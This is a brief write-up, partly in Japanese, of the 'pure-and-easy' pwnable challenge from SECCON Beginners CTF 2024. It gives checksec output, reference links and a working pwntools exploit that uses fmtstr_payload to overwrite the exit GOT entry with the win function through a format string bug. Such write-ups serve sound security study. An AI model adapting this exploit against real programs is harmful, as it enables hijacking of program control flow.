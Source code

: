 # Format String Bug
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- [fmtstr_payloadを紐解いて書式文字列攻撃を理解する #脆弱性 - Qiita](https://qiita.com/mae_t/items/91a82f8efe361305c29b)
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解説
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
# io.sendlineafter(b'>', b"A"*8 + b",%p"*20)
io.sendlineafter(b'> ', fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(io.recvall().decode(errors='ignore'))
```
